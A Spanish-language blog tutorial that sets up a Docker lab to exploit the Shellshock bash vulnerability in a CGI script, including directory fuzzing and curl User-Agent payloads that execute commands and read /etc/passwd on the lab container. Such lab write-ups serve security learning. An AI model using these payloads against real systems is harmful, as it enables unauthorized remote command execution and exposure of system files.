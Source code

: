 ```yaml
---
layout: single
title:  Explotando la vulnerabilidad shellshock en un entorno controlado
excerpt: "En este post mostraré como crear un pequeño laboratorio a traves de docker sobre la vulnerabilidad de shellshock hasta ganar acceso al sistema"
date: 2021-05-09
classes: wide
header:
    teaser: /assets/images/shellshock/13.png
    teaser_home_page: true
categories:
    - vulnerability
tags:
    - linux
    - docker
---
```



<p align="center">
<img src="/assets/images/shellshock/portada.png">
</p>

- [Requisitos del laboratorio](#requisitos-del-laboratorio)
- [Laboratorio](#laboratorio)
- [Construyendo el Dockerfile](#construyendo-el-dockerfile)
- [Obteniendo una shell](#obteniendo-una-shell)

## Requisitos del laboratorio
- Maquina virtual Parrot OS
- Docker 
- Git 

## Shellshock ¿Que es?
Shellshock , también conocido como Bashdoor , es una familia de errores de seguridad de la familia Bash Unix.
Esta vulnerabilidad existe desde hace un tiempo, pero debido a la ubicuidad de las máquinas Unix conectadas a la web, Shellshock sigue siendo una amenaza muy real, especialmente para los sistemas sin parches.
Bash es un intérprete o intérprete que permite ejecutar comandos en un sistema, normalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix y, como tal, se puede encontrar en Linux, macOS y otras variantes de Unix. Esta es la razón por la que Shellshock es tan severo: más de la mitad de los servidores web en Internet ejecutan Unix.

----

# Laboratorio
Para replicar esta vulnerabilidad en nuestro sistema es necesario descargar este [proyecto](https://github.com/Zenithar/docker-shellshockable) el cual viene un archivo Dockerfile que construiremos con docker para hacer nuestra práctica
```
git clone https://github.com/Zenithar/docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/1.PNG">
  </p>

## Contruyendo el Dockerfile
Teniendo ya el repositorio en nuestra maquina aplicaremos el siguiente comando como el usuario root.
```bash
sudo docker build -t shellshock docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/2.PNG">
  </p>

Listamos las todas las imagenes para verificar la construccion de la imagen shellshock.  
Y posteriormente corremos el contenedor
<p align="center">
<img src="/assets/images/shellshock/3.PNG">
  </p>

----

Con el comando ```ifconfig docker0``` comprobaremos en que segmento de red se encuentra el contenedor.
<p align="center">
<img src="/assets/images/shellshock/4.PNG">
  </p>


Se puede observar que la ip en el que se esta ejecutando el servicio web es la 172.17.0.2
<p align="center">
<img src="/assets/images/shellshock/5.PNG">
  </p>


Si nos dirigimos al navegador nos muestra la pagina por defecto de apache.
<p align="center">
<img src="/assets/images/shellshock/6.PNG">
  </p>


Aplicaremos fuzzing a la pagina web para ver que con cosas interesantes nos podemos topar para ello haré uso de la utilidad de dirsearch que lo puedes descargar de [aquí](https://github.com/maurosoria/dirsearch).

<p align="center">
<img src="/assets/images/shellshock/7.PNG">
  </p>

Si verificamos este directopio en la web nos manda un mensaje de que no tenemos acceso, sin embargo sabemos que existe asi que volveremos a aplicar fuzzing a esta ruta nueva.
<p align="center">
<img src="/assets/images/shellshock/8.PNG">
  </p>

Ha sido posible encontrar la ruta **/cgi-bin/sockme.cgi**.
<p align="center">
<img src="/assets/images/shellshock/9.PNG">
  </p>

El siguiente comando de POC es posible obtener ejecución remota de comandos dentro del servidor.
```bash
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"

```
<p align="center">
<img src="/assets/images/shellshock/10.PNG">
  </p>

----

## Obteniendo una shell
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
<p align="center">
<img src="/assets/images/shellshock/11.PNG">
  </p>






